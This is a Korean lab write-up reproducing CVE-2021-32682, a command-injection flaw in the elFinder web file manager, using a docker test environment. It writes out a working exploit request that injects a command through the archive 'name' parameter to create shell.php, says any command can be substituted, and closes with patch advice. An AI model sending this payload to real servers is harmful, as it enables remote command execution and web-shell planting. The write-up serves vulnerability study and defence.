


# CVE-2021-32682

**Contributors**

-   [임성민(@Tjdmin1)](https://github.com/Tjdmin1)

<br/>

# elFinder ZIP 인수 삽입으로 인한 명령어 삽입 (CVE-2021-32682)

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자이다.

elFinder 2.1.48 이하 버전에서 Arguments Injection 취약점이 발견되었다. 이 취약점을 통해 elFinder PHP connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있다. 이 문제는 2.1.59에서 패치되었다.

참고 자료:

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>

## 환경 설정

elFinder 2.1.58을 시작하기 위해 다음 명령을 실행한다:

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080`에서 elFinder 메인 페이지를 볼 수 있다.

## 취약점 재현

### 1. 파일 준비

`1.txt` 파일을 생성한다:



마우스 오른쪽 버튼 클릭 메뉴에서 `1.txt`를 ZIP으로 압축하고 이름을 `2.zip`으로 변경한다:



`1.txt`와 `2.zip`이 준비된 상태:


### 2. 명령어 삽입 실행

파일이 준비되면 다음 명령으로 PoC를 실행한다:

```
pip install requests
python3 poc.py
```

또는 직접 아래 요청을 보낸다:

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip:8080
```

요청은 에러 메시지를 반환하지만, `id` 명령이 실행되어 `shell.php`가 생성된다:


`http://your-ip:8080/files/shell.php`에 접속하면 명령 실행 결과를 확인할 수 있다.

- `name` 파라미터의 `id>shell.php` 부분을 임의의 명령어로 교체할 수 있다.
- `targets[0]` (`l1_MS50eHQ`)은 `1.txt`의 base64 인코딩, `targets[1]` (`l1_Mi56aXA`)은 `2.zip`의 base64 인코딩이다.

## 환경 종료

```
docker compose down
```

## 대응 방안

- elFinder 2.1.59 이상으로 업데이트한다.
- elFinder PHP connector를 인증 없이 외부에 노출하지 않는다.
